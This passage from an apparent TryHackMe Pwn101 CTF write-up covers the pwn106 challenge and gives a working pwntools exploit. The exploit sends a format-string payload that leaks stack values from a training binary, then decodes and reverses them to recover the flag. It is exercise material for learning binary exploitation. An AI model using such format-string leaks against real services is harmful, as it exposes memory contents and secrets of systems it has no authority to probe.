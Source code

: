 Some brute force actions we found right order of hex codes and reverse unhexed values and get the flag.

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn106user.pwn106-user'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

payload = b"%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

io = start()
io.recv()
io.recv()
io.sendline(payload)
output = io.recv().strip().split(b" ")[1].split(b".")
flag = ""
for word in output:
    decoded = unhex(word.decode("utf-8"))
    reverse_decoded = decoded[::-1]
    print(str(reverse_decoded.decode("utf-8")), end ="")
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2028.png)

# Challenge 7 - pwn107
